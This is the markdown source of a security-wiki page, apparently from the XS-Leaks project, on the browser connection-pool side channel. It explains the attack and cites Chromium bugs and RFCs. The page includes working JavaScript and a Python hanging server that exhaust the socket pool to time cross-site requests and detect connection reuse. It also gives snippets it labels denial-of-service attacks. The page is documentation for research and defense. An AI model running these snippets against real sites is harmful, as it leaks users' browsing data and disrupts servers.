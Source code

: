 +++
title = "Connection Pool"
description = ""
date = "2020-10-01"
category = "Attack"
abuse = [
    "Connection Pool",
    "Browser Limits",
]
defenses = [
    "Fetch Metadata",
    "SameSite Cookies",
]
menu = "main"
+++

Another way to measure the network timing of a request consists of abusing the socket pool of a browser [^1]. Browsers use sockets to communicate with servers. As the operating system and the hardware it runs on have limited resources, browsers have to impose a limit.

To exploit the existence of this limit, attackers can:
1. Check what the limit of the browser is, for example 256 global sockets for TCP and 6000 global sockets for UDP. [^2][^7]
2. Block {{< katex>}}255{{< /katex >}} sockets for a long period of time by performing {{< katex>}}255{{< /katex >}} requests to different hosts that simply hang the connection
```javascript
// Client
for(let i=0; i<255; i++) fetch('https://'+i+'.example.com/', {mode: "no-cors", cache: "no-store"});
```
```python
# Server
from http.server import BaseHTTPRequestHandler, HTTPServer
import time

class handler(BaseHTTPRequestHandler):
    def do_GET(self):
        time.sleep(float(100000))
        self.send_response(200)
        self.send_header('Cache-Control', 'no-store')
        self.end_headers()

with HTTPServer(('', 8000), handler) as server:
    server.serve_forever()
```
4. Use the {{< katex>}}256^{th}{{< /katex >}} socket by performing a request to the target page.
5. Perform a {{< katex>}}257^{th}{{< /katex >}} request to another host. Since all the sockets are being used (in steps 2 and 3), this request must wait until the pool receives an available socket. This waiting period provides the attacker with the network timing of the {{< katex>}}256^{th}{{< /katex >}} socket, which belongs to the target page. This works because the {{< katex>}}255{{< /katex >}} sockets in step 2 are still blocked, so if the pool received an available socket, it was caused by the release of the socket in step 3. The time to release the {{< katex>}}256^{th}{{< /katex >}} socket is directly connected with the time taken to complete the request.
```javascript
performance.clearResourceTimings();
await fetch(location.href, {cache: "no-store"});
await new Promise(r => setTimeout(r, 1000));
let data = performance.getEntries().pop();
let type = (data.connectStart === data.startTime) ? 'reused' : 'new';
console.log('Time spent: ' + data.duration + ' on ' + type + ' connection.');
```

## Connection reuse
With HTTP/1.1 (TCP) and HTTP/2 (TCP) and HTTP/3 (UDP) requests may reuse an existing connection for a host to improve performance. [^3][^4]
HTTP/2 also has Connection Coalescing which allows different hostnames that are accessible from the same web server to reuse a connection. [^8]
This is currently keyed by if credentials are included in the request.
Since a reused connection is normally faster this could allow for detecting if a site has connected to a host excluding anything that’s been cached and leaking information about the cross-site request by abusing Stream prioritization and HPACK compression. [^5]
Connections may get closed if they are left idle or the sockets are exhausted, for example 256 connections for HTTP/2 or 30 seconds idle for HTTP/3. [^2][^6]
This may also leak when the connection happened and the browser can have per connection limits and on how many connections are allowed per host, for example 6 connections per host. [^2]
```javascript
// Detect if a HTTP/3 request was made to a certain host in the last 20 seconds.
await new Promise(r => setTimeout(r, 10000));

// Check for connection reuse for when there’s a Timing-Allow-Origin header.
async function isConnected(url) {
    performance.clearResourceTimings();
    try {
        await fetch(url, {
            cache: "no-store",
            credentials: "include"
        });
    } catch {}
    await new Promise(r => setTimeout(r, 1000));
    let data = performance.getEntries().pop();
    // Allowed to read timing information.
    // Same-origin or the Timing-Allow-Origin header.
    console.log("Protocol: " + data.nextHopProtocol);
    return (data.connectStart === data.startTime);
}

// Check for connection reuse for when there’s no Timing-Allow-Origin header. (less reliable)
async function isConnected2(url, max = 50) {
    let start = performance.now();
    try {
        await fetch(url, {
            cache: "no-store",
            method: "GET",
            mode: "no-cors",
            credentials: "include"
        });
    } catch {}
    let duration = performance.now() - start;
    
    let start2 = performance.now();
    try {
        await fetch(url, {
            cache: "no-store",
            method: "GET",
            mode: "no-cors",
            credentials: "include"
        });
    } catch {}
    let duration2 = performance.now() - start2;
    return (duration - duration2 < max);
}

await isConnected2('https://example.com/404');
```

## Skipping dependences
If a connection is exhausted or there’s to many sockets open then requests for code from a host may fail resulting in different behaviour.
The following examples are by design a DoS attack for both the client and server.
Open a lot of sockets: (ERR_CONNECTION_CLOSED, ERR_INSUFFICIENT_RESOURCES)
```javascript
for (let i = 0; i < 500; i++) request();

async function request() {
    let x = new AbortController();
    fetch('https://example.org', {
        mode: "no-cors",
        //credentials: 'include',
        cache: "no-store",
        signal: x.signal
    });
    await new Promise(r => setTimeout(r, 10));
    x.abort();
    request();
}

open('https://example.com', '' , 'popup=1');
```
Overload a connection so it never requests to that host. (ERR_CONNECTION_RESET)
```javascript
let x = [...Array(1000000)].join(',');
request();
function request() {
fetch('https://example.com', {mode: "no-cors", cache: "no-store", method: 'POST', body: x}).then(request);
}
```
## Defense

| [SameSite Cookies (Lax)]({{< ref "/docs/defenses/opt-in/same-site-cookies.md" >}}) | [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) | [Framing Protections]({{< ref "/docs/defenses/opt-in/xfo.md" >}}) | [Isolation Policies]({{< ref "/docs/defenses/isolation-policies" >}}) |
| :--------------------------------------------------------------------------------: | :-------------------------------------------------: | :---------------------------------------------------------------: | :-------------------------------------------------------------------: |
|                                         ❌                                          |                          ❌                          |                                 ❌                                 |                                   ❌                                   |


{{< hint info >}}
Similar to [partitioned caches]({{< ref "../../defenses/secure-defaults/partitioned-cache.md" >}}), some browsers are considering to extend the principle of "split per site/origin" of resources to [socket pools](https://bugzilla.mozilla.org/show_bug.cgi?id=1572544).
{{< /hint >}}

## References

[^1]: Leak cross-window request timing by exhausting connection pool, [link](https://bugs.chromium.org/p/chromium/issues/detail?id=843157)
[^2]: client_socket_pool_manager.cc, [link](https://source.chromium.org/chromium/chromium/src/+/main:net/socket/client_socket_pool_manager.cc)
[^3]: rfc9113 Connection Reuse, [link](https://httpwg.org/specs/rfc9113.html#rfc.section.9.1.1)
[^4]: rfc9114 Connection Reuse, [link](https://httpwg.org/specs/rfc9114.html#rfc.section.3.3)
[^5]: rfc9113 Remote Timing Attacks, [link](https://httpwg.org/specs/rfc9113.html#rfc.section.10.9)
[^6]: quic_context.h, [link](https://source.chromium.org/chromium/chromium/src/+/main:net/quic/quic_context.h)
[^7]: features.cc, [link](https://source.chromium.org/chromium/chromium/src/+/main:net/base/features.cc)
[^8]: HTTP/2 CONNECTION COALESCING, [link](https://daniel.haxx.se/blog/2016/08/18/http2-connection-coalescing/)
